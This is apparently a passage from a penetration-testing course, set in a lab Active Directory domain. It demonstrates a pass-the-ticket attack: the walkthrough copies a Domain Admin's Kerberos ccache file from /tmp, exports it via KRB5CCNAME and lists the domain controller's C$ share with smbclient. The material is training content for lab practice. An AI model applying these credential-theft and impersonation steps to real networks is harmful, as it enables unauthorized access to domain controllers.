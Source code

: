 There is one user (julio@inlanefreight.htb) to whom we have not yet gained access. We can confirm the groups to which he belongs using `id`.
#### Identifying Group Membership with the id Command

```shell-session
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```

Julio is a member of the `Domain Admins` group. We can attempt to impersonate the user and gain access to the `DC01` Domain Controller host.

To use a ccache file, we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable.

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```

**Note:** klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

